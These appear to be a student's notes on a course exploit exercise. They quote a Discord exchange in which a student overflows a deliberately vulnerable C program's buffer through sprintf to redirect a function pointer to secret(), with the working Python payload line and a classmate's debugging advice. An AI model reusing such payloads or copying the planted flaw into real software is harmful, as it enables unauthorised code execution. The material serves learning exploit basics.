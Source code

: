 # Notes
1. Write the over flow in hex and in four bytes little-endian order such as Integer ```1``` as ```\x01\x00\x00\x00``` each section for one byte
2. Since Python2 and python3 use different method to encode and decode the string and bytes. Need to use
```
import sys
sys.stdout.buffer.write()
```
for write into the memory

3. \x09 Issue, quote from discord:
Scott Zeta — Yesterday at 15:26
Hey guys, I just found something I can not explain. My assignment requires me to exploit
void secret()
{
    setreuid(geteuid(), getegid());
    system("/bin/cat /home/q4/secret");
}
void lose()
{
    printf("Try again...\n");
}
int main(int argc, char **argv)
{
    // fp is function pointer
    struct
    {
        char buffer[1024];
        volatile unsigned int (*fp)();
    } locals;

    locals.fp = &lose;
    
    if (argc != 2)
    {
        printf("Usage: q4 <some string>\n");
        return -1;
    }
    if (strlen(argv[1]) > 100)
    {
        printf("Sorry the input string is too long...\n");
        return -1;
    }

    // use sprintf instead of strcpy
    // strcpy(locals.buffer, argv[1]);
    sprintf(locals.buffer, argv[1]);

    printf("Jumping to function at 0x%08x!!\n", (unsigned int)locals.fp);
    locals.fp();
    return 0;
}

I use GDB to locate the secret() is at 0x56556209. But my pay load
./run_me $(python -c "import sys; sys.stdout.buffer.write(b'%1024d' + b'\x09\x62\x55\x56')")
 has problem since x09 will be identified as Tab, and cause two input arguments.
I have no idea how to solve that, so I was trying some random numbers without intention. Then I found
./run_me $(python -c "import sys; sys.stdout.buffer.write(b'%1024d' + b'\x07\x62\x55\x56')")
 This one works and I got the secret!
Well, I mainly have two question.
1. what should I do if I want to write \x09, without been identified as ACII \t?
2. Why I can access the address 0x56556209 by 0x56556207?
Great thanks if anyone know some clues.

How to solve? Can not believe it is such simple!

samiko — Yesterday at 16:54
surround the input string with additional double-quotes and your shell will treat it as one argument, like this:
"$(python -c "...")"

samiko — Yesterday at 17:25
when you overwrite the return pointer you're basically changing where the program should jump to when it executes the return - x07 is two bytes off, so you'd still be jumping to an address relatively close to secret(), my guess is the program will execute whatever data is there as instructions (which just so happens didnt crash your program), and then it'd land on secret() 

samiko — Yesterday at 17:37
you can probably observe this in gdb by stepping through each instruction and looking at the instruction pointer register (%eip/%rip)
https://gist.github.com/rkubik/b96c23bd8ed58333de37f2b8cd052c30
